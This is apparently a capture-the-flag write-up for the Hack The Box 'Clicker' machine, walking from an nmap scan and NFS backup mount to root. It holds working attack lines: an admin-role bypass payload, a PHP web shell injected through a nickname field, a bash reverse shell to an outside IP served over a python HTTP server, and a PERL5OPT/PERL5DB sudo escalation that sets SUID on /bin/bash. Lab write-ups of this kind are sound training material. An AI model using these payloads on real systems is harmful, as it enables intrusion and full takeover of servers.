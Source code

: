 # Clicker Writeup
<figure><img src="../src/Clicker/card.png"></figure>

## Target IP: 10.10.11.232

Nmap Scan: 

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -vv 10.10.11.232
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO8nDXVOrF/vxCNHYMVULY8wShEwVH5Hy3Bs9s9o/WCwsV52AV5K8pMvcQ9E7JzxrXkUOgIV4I+8hI0iNLGXTVY=
|   256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjDCjag/Rh72Z4zXCLADSXbGjSPTH8LtkbgATATvbzv
80/tcp   open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://clicker.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp  open  rpcbind syn-ack 2-4 (RPC #100000)
|_rpcinfo: ERROR: Script execution failed (use -d to debug)
2049/tcp open  nfs     syn-ack 3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's Check which directories are exported via NFS

```
┌──(kali㉿kali)-[~]
└─$ /sbin/showmount --exports 10.10.11.232
Export list for 10.10.11.232:
/mnt/backups *
```

Let's mount it to a local folder

```
$ sudo mount -t nfs 10.10.11.232:/mnt/backups /mnt/
$ ll
total 2232
-rw-r--r-- 1 root root 2284115 Sep  1 16:27 clicker.htb_backup.zip
$ unzip clicker.htb_backup.zip
$ cd clicker.htb
```

## Web Enumeration

We Discover the landing URL `clicker.htb` and add it to our `/etc/hosts` file.

<figure><img src="../src/Clicker/landingpage.png"></figure>

Since I could read the source code I realised that sending 'role/**/=Admin' allows me to bypass certain condition.

So I got admin access by sending the payload:
`GET /save_game.php?clicks=4&level=0&role/**/=Admin`

After logging out and loging back in once again. I could see the Administrator tab.

I could see a button where I could export the score in `txt, json or html`.

I was able to manipulate the file extension using burpsuite and was able to store the file as a `.php` file.

After that I looked into the source code of `save_game.php` and there was a field to enter a nickname as well

I injected the php cmd shell through the requests of the `save_game.php`

```
&nickname=<%3fphp+system($_GET['cmd'])+%3f>
```

Exported that field as php as well and was able to get some info out of it.

<figure><img src="../src/Clicker/cmdshell.png"></figure>

I wrote a normal bash script for reverse shell and injected that throught the url as well.

## User Flag

Create shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.18/4444 0>&1
```

Run http server:
```
┌──(kali㉿kali)-[~/Desktop/htb/clicker]
└─$ sudo python3 -m http.server 1111                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
```

Add the payload for the shell in the url. And we get the reverse shell.

<figure><img src="../src/Clicker/shell.png"></figure>

I was able to get private keys of jack using the `execute_query` from `/opt/manage`.

<figure><img src="../src/Clicker/id_rsa.png"></figure>

and I got user access.

<figure><img src="../src/Clicker/userflag.png"></figure>

## Root Flag

I checked which scripts can be run by jack.

```
-bash-5.1$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

After a little analysis, I found that this file actually calls `/usr/bin/echo` and `/usr/bin/xml_pp` which is a perl script to run.

This vulnerability is called `"perl_startup"` Priviledge Escalation.

```
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

```
bash -p
```

And the machine has been rooted.

<figure><img src="../src/Clicker/rooted.png"></figure>

Thank you!! Happy Hacking :D